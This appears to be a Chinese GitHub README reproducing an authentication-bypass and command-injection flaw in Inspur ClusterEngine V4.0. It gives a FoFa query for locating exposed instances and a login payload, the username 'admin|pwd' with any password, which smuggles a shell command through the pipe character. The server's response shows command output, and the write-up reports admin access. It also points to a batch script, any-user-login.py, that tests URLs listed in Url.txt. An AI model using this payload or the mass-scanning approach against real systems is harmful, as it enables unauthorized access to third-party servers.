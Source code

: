 # 影响范围：  
已知浪潮ClusterEngineV4.0  
# FoFa fork:  
title="TSCEV4.0"
# 漏洞复现  
访问登录页面：  
https://xxx.xxx.xxx.xxx:8443/module/login/login.html 
  
![image](image/login.png)  
  
使用用户名admin|pwd和任意密码进行登录  
  
![image](image/username.png) 

![image](image/burp.png)

服务器返回结果：  

```
{"err":"","exitcode":0,"out":"/\n"}
```

登陆成功，进入管理界面！！！  

![image](image/frame.png)

# 脚本使用
待检测地址存放在Url.txt中，保存在脚本同目录下。

python3 any-user-login.py 

![image](image/run.png)





